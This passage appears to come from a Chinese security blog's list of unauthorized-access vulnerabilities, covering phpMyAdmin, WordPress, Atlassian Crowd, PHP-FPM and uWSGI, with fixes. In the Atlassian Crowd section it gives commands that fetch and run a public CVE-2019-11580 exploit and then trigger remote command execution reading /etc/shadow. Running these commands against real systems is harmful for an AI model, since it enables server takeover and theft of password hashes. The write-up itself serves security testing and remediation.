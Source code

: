     ![](https://img2023.cnblogs.com/blog/3165839/202305/3165839-20230504111246302-2142229470.png)

### 漏洞修复

  更新宝塔 phpmyadmin 为最新版本

**33.     WordPress 未授权访问漏洞**
-----------------------------

### 漏洞复现

  可参考：[https://www.cnblogs.com/bflw/p/12342845.html](https://www.cnblogs.com/bflw/p/12342845.html)

**34.    Atlassian Crowd 未授权访问**
--------------------------------

### 漏洞简介

  Atlassian Crowd 是一套基于 Web 的单点登录系统。该系统为多用户、网络应用程序和目录服务器提供验证、授权等功能。Atlassian Crowd Data Center 是 Crowd 的集群部署版。

  Atlassian Crowd 和 Crowd Data Center 在其某些发行版本中错误地启用了 pdkinstall 开发插件，使其存在安全漏洞。攻击者利用该漏洞可在未授权访问的情况下对 Atlassian Crowd 和 Crowd Data Center 安装任意的恶意插件，执行任意代码 / 命令，从而获得服务器权限。

### 漏洞检测

  漏洞利用脚本 github 地址：[https://github.com/jas502n/CVE-2019-11580](https://github.com/jas502n/CVE-2019-11580)

    git clone https://github.com/jas502n/CVE-2019-11580

    cd CVE-2019-11580/

    python CVE-2019-11580.py http://192.168.18.138:8095

    curl  http://192.168.18.138:8095/crowd/plugins/servlet/exp?cmd=cat%20/etc/shadow

### 漏洞修复

*   设置访问 / crowd/admin/uploadplugin.action 的源 ip。
*   升级最新版本 (3.5.0 以上)。

**35.    PHP-FPM Fastcgi 未授权访问漏洞**
----------------------------------

  详情请见：[https://www.freebuf.com/articles/web/278245.html](https://www.freebuf.com/articles/web/278245.html)（**第 25 条**）

    ![](https://img2023.cnblogs.com/blog/3165839/202305/3165839-20230504112230916-1851393071.png)

**36.     uWSGI 未授权访问漏洞**
-------------------------

  详情请见：[https://www.freebuf.com/articles/web/278245.html](https://www.freebuf.com/articles/web/278245.html) （**第 27 条**）
